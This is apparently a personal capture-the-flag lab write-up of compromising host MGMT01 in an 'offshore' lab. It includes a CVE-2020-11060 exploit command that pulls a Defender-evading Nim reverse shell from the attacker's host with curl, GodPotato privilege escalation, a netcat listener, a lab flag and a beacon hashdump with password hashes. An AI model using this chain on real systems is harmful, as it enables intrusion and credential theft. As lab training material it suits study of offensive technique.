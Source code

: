 ```bash
except:
  raise
finally:
  v.close
```
utilized this command to make it a fast reverse shell that bypasses defender, this utilizes nim and turns it into a `.exe` reverse shell
`nim c -d:mingw --app:gui --opt:speed -o sniff.exe rev_shell.nim` 


utilized this command to put `sniff.exe` onto `mgmt01`
```powershell
proxychains python3 CVE-2020-11060.py --url 'http://172.16.2.12//sound/mavEnVji.php' --command 'curl -O http://10.10.14.39:8000/sniff.exe'
```
![[Pasted image 20240126205856.png]]
found `GOD POTATO` godpotato.exe which abuses the `SEIMPERSONATEPRIVILEGE` on `WINDOWS SERVER 2019` as well as bypassses defender because its newish

- https://github.com/BeichenDream/GodPotato/releases

utilized `run reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s` to identify which `.NET` version is running which is v4

![[Pasted image 20240126210100.png]]
uploaded `GOD POTATO` as `gp4.exe` into `C:\WINDOWS\TASKS` on `MGMT01` as well as moved `sniff.exe` into the same directory.

started a `netcat` listener
```powershell
┌──(root💀gobots)-[26Jan2024 19:42:24]-[~/SUT/offshore/MGMT01]                                                                                                                                              
└─# nc -lvnp 5555                                                                                                                                                                                           
listening on [any] 5555 ...                                       
```
utilized `run gp4.exe -cmd sniff.exe` for god potato to execute my reverse shell.
![[Pasted image 20240126210343.png]]
it executed and I caught my reverse shell.
![[Pasted image 20240126210414.png]]
navigated to `C:\Users\Administrator\Desktop` for the flag
# INSERT FLAG NAME HERE 2ND ONE ON MGMT01
`OFFSHORE{l0ng_liv3_Th3_t@ter!}`

![[Pasted image 20240126210456.png]]
was able to get a beacon in the shell i had, took two attempts
```powershell
[01/26 22:14:40] beacon> hashdump
[01/26 22:14:40] [*] Tasked beacon to dump hashes
[01/26 22:14:40] [+] host called home, sent: 83262 bytes
[01/26 22:14:42] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:971bc1ac6d2344c4b42107976e0972dc:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:f134707b7798ad1bbf37f49a6a422a38:::
```
![[Pasted image 20240126221604.png]]